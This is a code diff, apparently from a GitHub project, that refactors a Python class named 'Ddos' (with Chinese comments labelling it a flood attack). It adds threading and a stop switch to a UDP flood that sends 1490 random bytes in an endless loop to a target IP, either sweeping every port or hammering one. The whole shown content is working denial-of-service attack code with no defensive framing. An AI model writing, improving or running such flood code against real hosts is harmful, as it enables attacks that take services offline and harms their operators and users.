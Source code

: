 ```diff
 
 class Ddos:
     # 泛洪攻击
-    def all(self):
+    def allRun(self):
         self.data['port'] = self.port
-        sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
-        bytes = random._urandom(1490)
-        while True:
-            sock.sendto(bytes, (self.ip,self.data['port']))
+        while self.start:
+            self.sock.sendto(self.bytes, (self.ip,self.data['port']))
             self.data['sent'] += 1
             self.data['port'] += 1
             if self.data['port'] == 65534:
                 self.data['port'] = 1
+    def all(self):
+        self.start = True
+        t = threading.Thread(target=self.allRun, args=())
+        t.start()
     # 洪攻击
-    def one(self):
+    def oneRun(self):
         self.rport = self.port
-        sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
-        bytes = random._urandom(1490)
-        
-        while True:
-            sock.sendto(bytes, (self.ip,self.port))
+        while self.start:
+            self.sock.sendto(self.bytes, (self.ip,self.port))
             self.data['sent'] += 1
+    def one(self):
+        self.start = True
+        t = threading.Thread(target=self.oneRun, args=())
+        t.start()
+    # 停止攻击
+    def stop(self):
+        self.start = False
     def __init__(self, ip, port = 1):
         self.sent = 0
         self.ip = ip
         self.port = port
         self.data = {
             "sent": 0,
             "port": 0,
         }
+        #初始化数据包
+        self.sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
+        self.bytes = random._urandom(1490)
 
 
 
 if __name__ == "__main__":
     print(ping('8.8.8.8'))
```
